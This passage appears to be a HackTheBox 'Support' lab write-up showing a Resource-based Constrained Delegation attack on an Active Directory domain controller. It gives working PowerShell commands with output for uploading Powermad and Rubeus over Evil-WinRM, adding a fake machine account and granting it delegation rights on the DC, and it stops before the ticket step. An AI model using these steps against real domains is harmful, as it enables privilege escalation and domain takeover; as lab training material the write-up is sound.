 ![image](https://user-images.githubusercontent.com/110564012/235828234-8c481606-ed7f-4b32-b7b6-c99ab951a037.png)

Constrained Delegation Attack
-----------------------------

We notice that shared support accounts have *generic all* permission on the DC and the *support* account (which we own) has *generic all* on account operators. This means that we may be able to add a new computer object to the environment, generate a password hash, and request kerberos tickets that we can use for impersonating an administrator account. This type of attack is called Resource-based Constrained Delegation. More info can be found at this link: [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation)

We will need a few tools to perform this attack.

```text-plain
git clone https://github.com/SecureAuthCorp/impacket.git
git clone https://github.com/Kevin-Robertson/Powermad.git
git clone https://github.com/GhostPack/Rubeus.git
```

Using EvilWinRM upload the powermad and rubeus tools to the target.

```text-plain
*Evil-WinRM* PS C:\Users\support\Documents> upload /home/kali/Desktop/HTB/Tools/Powermad/Powermad.ps1 pm.ps1
Info: Uploading /home/kali/Desktop/HTB/Tools/Powermad/Powermad.ps1 to pm.ps1

*Evil-WinRM* PS C:\Users\support\Documents> upload /home/kali/Desktop/HTB/Tools/Ghostpack-CompiledBinaries/Rubeus.exe r.exe
Info: Uploading /home/kali/Desktop/HTB/Tools/Ghostpack-CompiledBinaries/Rubeus.exe to r.exe
```

Then import powermad and set the variables we will need.

```text-plain
*Evil-WinRM* PS C:\Users\support\Documents> Import-Module ./pm.ps1
*Evil-WinRM* PS C:\Users\support\Documents> Set-variable -Name "FakePC" -Value "FAKE01"
*Evil-WinRM* PS C:\Users\support\Documents> Set-Variable -Name "targetComputer" -Value "DC"
```

Now we can use powermad to add the fake computer object to AD.

```text-plain
*Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount (Get-Variable -Name "FakePC").Value -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
Verbose: [+] Domain Controller = dc.support.htb
Verbose: [+] Domain = support.htb
Verbose: [+] SAMAccountName = FAKE01$
Verbose: [+] Distinguished Name = CN=FAKE01,CN=Computers,DC=support,DC=htb
[+] Machine account FAKE01 added
```

Now use the built-in AD function to give the fake computer object constrained delegation privilege.

```text-plain
*Evil-WinRM* PS C:\Users\support\Documents> Set-ADComputer (Get-Variable -Name "targetComputer").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "FakePC").Value + '$')
```
